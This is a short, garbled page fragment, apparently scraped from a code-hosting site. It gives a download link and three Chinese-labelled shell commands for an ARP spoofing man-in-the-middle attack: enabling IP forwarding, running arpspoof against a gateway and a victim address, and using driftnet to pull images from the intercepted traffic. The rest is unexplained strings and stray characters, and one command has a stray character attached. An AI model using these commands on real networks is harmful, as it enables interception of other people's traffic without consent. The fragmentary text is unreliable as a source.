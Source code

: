 

https://ww.lanzous.com/icxoiah

``` 
更改转发模式      # echo 1 > /proc/sys/net/ipv4/ip_forward
arp攻击              # arpspoof -i eth0 -t 192.168.1.1  192.168.1.100
数据还原分析      # driftnet -i eth0吗
```







VC14FQNKU4KI2

02-11-32-26-11-EB





a A A 

